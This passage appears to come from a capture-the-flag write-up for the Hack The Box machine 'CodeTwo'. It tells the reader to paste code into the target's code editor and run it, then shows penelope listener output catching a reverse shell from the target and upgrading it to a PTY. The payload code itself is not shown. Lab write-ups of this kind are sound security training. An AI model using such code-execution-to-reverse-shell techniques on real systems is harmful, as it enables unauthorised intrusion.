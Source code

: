 After that, we gonna copy and paste this to the code editor in the dashboard.

![CodeTwo Run Code](/assets/img/codetwo-htb-release-area-machine/codetwo-htb-release-area-machine_run_code.png)

Click and *Run Code* button.

```bash
└─$ penelope -p 3333      
[+] Listening for reverse shells on 0.0.0.0:3333 →  127.0.0.1 • 172.xx.xx.xx • 172.xx.xx.xx • 10.10.16.36
- 🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from codetwo~10.129.58.119-Linux-x86_64 😍 Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/bin/python3! 💪
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12 
[+] Logging to /home/kali/.penelope/codetwo~10.129.58.119-Linux-x86_64/2025_08_17-09_52_15-632.log 📜
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
app@codetwo:~/app$ pwd
/home/app/app
```